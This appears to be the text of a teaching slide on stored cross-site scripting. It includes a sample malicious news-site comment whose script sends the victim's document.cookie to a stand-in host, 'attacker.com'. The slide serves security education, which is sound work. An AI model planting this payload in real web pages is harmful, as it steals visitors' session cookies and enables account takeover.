

33
# Stored XSS
Attacker stores attacking code in a web server and various victim users triggers the attack by browsing the page.
Assume the attacker put the comment in the news website as follows:
| This article was so interesting.. <img style="display:none" id="cookieMonster"> <script> img = document.getElementById("cookieMonster"); img.src = "http://attacker.com?cookie=" + encodeURIComponent(document.cookie); </script> |
| --- |